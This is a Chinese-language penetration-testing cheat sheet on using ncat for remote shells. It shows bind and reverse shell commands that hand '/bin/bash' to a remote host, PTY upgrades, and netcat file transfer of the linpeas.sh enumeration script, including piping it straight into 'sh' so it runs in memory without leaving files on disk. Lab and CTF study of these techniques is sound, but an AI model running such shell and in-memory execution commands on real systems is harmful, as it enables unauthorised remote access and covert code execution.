 # 渗透常用命令之nc

    远程`SHELL`可以使攻击者跨网络执行`SHELL`命令。以小巧实用而著名的网络工具`nc`可以快速的提供远程`SHELL`和文件传输功能。

> 此次演示使用的程序为`ncat`，不同的版本命令可能会有差别

## 一、远程SHELL

    因为防火墙或者`NAT`的存在，通常导致无法在外部主动连接目标主机。根据攻击者所在位置，选择使用正向`SHELL`还是反向`SHELL`。

### 1. 正向shell（Bind shell）

靶机将`SHELL`绑定至本地端口，以供攻击机远程访问。靶机监听，攻击机主动连接靶机的称为正向`SHELL`。

> 攻击机位于局域网，靶机位于公网

![Bind.png](/home/kali/Downloads/Bind.png)

- 靶机监听端口
  
  ```bash
  nc -lvp 8888 -e /bin/bash
  ```

- 攻击机发出连接
  
  ```bash
  nc -v 106.000.000.100 8888
  ```

- 攻击机生成`PTY SHELL`（可选）
  
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  ```

### 2. 反向shell（Reverse shell）

攻击机将`SHELL`绑定至本地端口，以供靶机远程访问。攻击机监听，靶机主动连接攻击机的称为反向`SHELL`。

> 攻击机位于公网，靶机位于局域网

![Reverse.png](/home/kali/Downloads/Reverse.png)

- 攻击机监听端口
  
  ```bash
  nc -lvp 8888 
  ```

- 靶机发出连接
  
  ```bash
  nc -v 106.000.000.100 8888 -e /bin/bash
  ```

- 攻击机生成`PTY SHELL`（可选）
  
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  ```

## 二、文件传输

> 文件传输演示的网络环境为：攻击机位于局域网，靶机位于公网。

### 1. 文件上传（File upload）

将脚本文件`linpeas.sh`从攻击机上传到靶机。

- 靶机监听端口，并将输出重定向到文件`linpeas.sh`
  
  ```bash
  nc --recv-only -lvp 8888 > linpeas.sh
  ```

- 攻击机连接靶机端口，将输入重定向到文件`linpeas.sh`
  
  ```bash
  nc -v --send-only 106.000.000.100 8888 < linpeas.sh
  ```
  
  > 靶机可以通过管道将脚本内容直接传入`shell`。在内存中运行脚本，不会在硬盘中留下任何文件。
  > 
  > - 靶机
  >   
  >   ```bash
  >   nc --recv-only -lvp 8888 | sh
  >   ```
  > 
  > - 攻击机
  >   
  >   ```bash
  >   nc -v --send-only 106.000.000.100 8888 < linpeas.sh
  >   ```

### 2. 文件下载（File download）

将脚本文件`linpeas.sh`从靶机下载到攻击机。

- 靶机监听端口，并将输入重定向到文件`linpeas.sh`
  
  ```bash
  nc --send-only -lvp 8888 < linpeas.sh
  ```

- 攻击机连接靶机端口，将输出重定向到文件`linpeas_download.sh`
  
  ```bash
  nc -v --recv-only 106.000.000.100 8888 > linpeas_download.sh
  ```
